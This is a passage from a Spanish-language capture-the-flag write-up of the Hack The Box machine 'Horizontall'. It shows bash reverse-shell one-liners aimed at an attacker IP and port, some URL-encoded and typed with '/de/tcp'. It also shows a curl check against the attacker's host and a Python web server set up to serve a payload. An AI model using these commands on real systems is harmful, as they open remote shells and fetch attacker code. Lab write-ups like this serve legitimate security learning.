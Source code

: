 Vemos que no al parecer no nos interpreta, hacemos un par de pruebas mas.

```bash
bash -i >& /de/tcp/10.10.14.7/443 0>&1
bash -c "bash -i >& /de/tcp/10.10.14.7/443 0>&1"
bash -c bash -i >%26 /de/tcp/10.10.14.7/443 0>%261"
```

Probamos con cada una y vemos que no funciona entonces verificamos que la maquina tenga curl.

```bash
Curl http://10.10.14.7/test
```

Y también nos montamos el servidor con python en nuestra maquina.

```bash
python3 -m http.server 80
```

![Hackforce-2022-12-12-01-16-05.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-01-16-05.png)

Y vemos que si tiene curl instalado la maquina victima.

Lo que haremos sera crearnos un archivo index.html con el siguiente contenido.

```bash
nvim index.html
```

